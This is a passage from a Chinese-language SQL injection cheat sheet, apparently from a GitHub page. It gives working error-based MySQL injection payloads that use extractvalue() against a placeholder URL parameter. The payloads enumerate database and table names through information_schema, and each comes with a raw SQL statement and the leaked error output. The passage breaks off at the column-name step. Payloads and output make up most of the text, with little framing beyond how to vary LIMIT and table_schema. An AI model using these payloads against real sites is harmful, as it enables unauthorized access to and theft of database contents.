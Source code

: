 ## 0x02 爆库名

注意: LIMIT 0 修改会显示其他库名

例如:

LIMIT 0,1 修改为0 就是出1库

LIMIT 1,1 修改为1 就是出2库

web语句: http://www.test.com/sql_add.php?data=extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)))

数据库语句: INSERT INTO test (test) value (extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1))));

```plain
mysql> INSERT INTO test (test) value (extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1))));
ERROR 1105 (HY000): XPATH syntax error: '~~information_schema~'
```

## 0x03 爆表名

注意: table_schema=xxx 修改为其他库会爆出其他库的数据

例如:

table_schema=database()  会获取当前连接的库数据

table_schema='test' 会获取test库数据



注意: LIMIT 0 修改会爆出不同的表名

例如:

LIMIT 0,1 修改为0 就是出1表

LIMIT 1,1 修改为1 就是出2表

web语句: http://www.test.com/sql_add.php?data=extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)))

数据库语句: INSERT INTO test (test) value (extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1))));

```plain
mysql> INSERT INTO test (test) value (extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1))));
ERROR 1105 (HY000): XPATH syntax error: '~~tdb_admin~'
```

## 0x04 暴字段

table_schema = "xx" 要爆的数据库名

table_name = "xx" 要爆的表名
